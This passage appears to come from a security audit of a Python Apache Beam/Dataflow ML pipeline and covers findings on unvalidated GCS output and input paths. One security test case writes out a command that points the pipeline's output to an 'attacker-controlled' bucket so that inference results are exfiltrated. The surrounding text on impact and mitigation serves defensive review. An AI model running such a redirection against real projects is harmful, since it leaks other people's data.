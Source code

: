 - **Preconditions:**
  - Attacker can modify `.env`:
    - Compromised environment.
    - Collaborator with write access.
    - Development/testing environment with lax security.

- **Source Code Analysis:**
  1. **`.env` File:** Stores `OUTPUT_DATA`.
  2. **`Makefile`:** Uses `OUTPUT_DATA` from `.env` in `run.py` command.
  3. **`my_project/run.py`:** Parses `--output` argument, which is set by `OUTPUT_DATA` in `Makefile`, and creates `SinkConfig`.
  4. **`my_project/config.py`:** `SinkConfig` stores `output` without validation.
  5. **`my_project/pipeline.py`:** `build_pipeline` uses `sink_config.output` directly in `beam.io.WriteToText` or `beam.io.fileio.WriteToFiles`.

- **Security Test Case:**
  1. **Pre-requisites:** Access to codebase, gcloud configured, make installed, attacker-controlled GCS bucket (e.g., `gs://attacker-controlled-bucket`).
  2. **Clone Repository:** `git clone ... ; cd ...`.
  3. **Modify `.env`:** `cp .env.template .env ; echo "OUTPUT_DATA=gs://attacker-controlled-bucket/exfiltrated_data.txt" >> .env`.
  4. **Run Dataflow Pipeline:** `make run-df-cpu`.
  5. **Verify Data Exfiltration:** Check `gs://attacker-controlled-bucket/exfiltrated_data.txt` for ML inference results using `gsutil ls` and `gsutil cat`.

#### 4. Unvalidated GCS Input Path

- **Description:**
    1. The `input` parameter, specifying the GCS path to the text file with image paths, is read directly from user-provided command-line arguments in `my_project/run.py`.
    2. This input path is passed to `SourceConfig` in `my_project/config.py` without validation.
    3. In `my_project/pipeline.py`, the unvalidated `source_config.input` is used by `beam.io.ReadFromText`.
    4. An attacker can provide a malicious GCS path as `--input`, potentially leading to reading files from unauthorized GCS locations if permissions are misconfigured.

- **Impact:**
    - Information Disclosure: If GCS permissions are misconfigured, an attacker could read arbitrary files from GCS accessible by the Dataflow job's service account, leading to disclosure of sensitive data.

- **Vulnerability Rank:** Medium

- **Currently Implemented Mitigations:**
    - None. No input validation for the GCS input path.

- **Missing Mitigations:**
    - Input validation in `my_project/config.py` within `SourceConfig` to validate the `input` path, ensuring it adheres to expected GCS path formats and potentially restricting access to allowed buckets/paths.
    - Restrictive GCS permissions for the Dataflow job's service account to limit information disclosure even if input validation is bypassed.

- **Preconditions:**
    - Attacker can specify the `--input` parameter when running the Dataflow pipeline.
    - Dataflow job's service account has broader GCS read permissions than intended.
